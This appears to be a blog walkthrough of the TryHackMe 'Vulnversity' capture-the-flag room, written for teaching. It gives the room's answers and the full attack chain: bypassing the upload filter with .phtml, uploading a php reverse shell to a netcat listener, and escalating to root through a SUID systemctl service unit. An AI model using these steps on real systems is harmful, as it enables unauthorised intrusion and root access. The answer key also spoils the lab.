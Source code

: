 ```yaml
---
title: "Vulnversity - TryHackMe"
author: krishna
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [privesc, pentest, ctf]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```shell
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

	* `find` to search

	* `/` to start from the topmost directory

	* `-perm` to specify permission value

	* `-4000` to specify SUID permission value of exactly 4000

	* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```bash
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/vulnversity/vuln9.png)